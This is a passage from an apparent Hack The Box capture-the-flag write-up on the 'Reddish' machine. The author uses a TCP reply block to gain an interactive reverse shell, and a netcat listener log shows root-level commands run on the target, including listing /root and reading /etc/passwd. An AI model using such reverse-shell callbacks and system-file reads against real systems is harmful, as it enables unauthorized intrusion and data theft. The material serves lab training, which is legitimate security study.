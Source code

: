 ![](attachments/reddish_10.png)

To make it interactive, I added one more block, `Input TCP`, and set its type as `Reply to TCP`.
I expect this allows kali to exec commands and reply this back.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 40412
id
uid=0(root) gid=0(root) groups=0(root)
[object Object]ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
13: eth0@if14: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
19: eth1@if20: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.4/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
[object Object]ls -al /root
total 40
drwx------ 1 root root 4096 Jul 15  2018 .
drwxr-xr-x 1 root root 4096 Jul 15  2018 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwx------ 1 root root 4096 Jul 15  2018 .config
drwx------ 1 root root 4096 Jul 15  2018 .gnupg
drwxr-xr-x 3 root root 4096 Jul 15  2018 .node-gyp
drwxr-xr-x 5 root root 4096 Jul 15  2018 .npm
-rw-r--r-- 1 root root  140 Nov 19  2007 .profile
[object Object]cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
```
